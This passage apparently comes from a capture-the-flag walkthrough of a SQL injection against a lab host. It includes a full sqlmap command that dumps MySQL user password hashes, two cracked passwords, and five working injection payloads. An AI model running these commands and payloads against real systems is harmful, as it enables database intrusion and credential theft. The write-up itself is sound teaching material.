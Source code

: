 ```
| transaction_registry                  |
+---------------------------------------+

Database: warehouse
[3 tables]
+---------------------------------------+
| product                               |
| product_category                      |
| product_pack                          |
+---------------------------------------+
```

We can dump users credentials stored in table `user` from database `mysql`.

```
$ sqlmap -u http://10.10.10.167/search_products.php --method POST -p productName --data 'productName=toto' -H 'X-Forwarded-For: 192.168.4.28' -D mysql -T user --dump -C User,Password

+---------+-------------------------------------------+
| User    | Password                                  |
+---------+-------------------------------------------+
| hector  | *0E178792E8FC304A2E3133D535D38CAF1DA3CD9D |
| manager | *CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA |
| root    | *0A4A5CAD344718DC418035A1F4D292BA603134D8 |
| root    | *0A4A5CAD344718DC418035A1F4D292BA603134D8 |
| root    | *0A4A5CAD344718DC418035A1F4D292BA603134D8 |
| root    | *0A4A5CAD344718DC418035A1F4D292BA603134D8 |
+---------+-------------------------------------------+
```

Great, [sqlmap][sqlmap] was able to crack 2 hashes with it's embedded automatic
bruteforce:

- `manager` / `l3tm3!n`
- `hector` / `l33th4x0rhector`

For your information here are the various methods [sqlmap][sqlmap] was able
to exploit:

```
Parameter: productName (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: productName=-7611' OR 8249=8249#

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: productName=toto' AND (SELECT 1413 FROM(SELECT COUNT(*),CONCAT(0x7178717671,(SELECT (ELT(1413=1413,1))),0x7176786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- dkpS

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: productName=toto';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: productName=toto' AND (SELECT 7102 FROM (SELECT(SLEEP(5)))ETMY)-- bIbM

    Type: UNION query
    Title: MySQL UNION query (NULL) - 6 columns
    Payload: productName=toto' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x7178717671,0x5665716b58786a4955776773767048694661436950414263626c756b56717243616f6d59796b4f66,0x7176786a71),NULL#
```
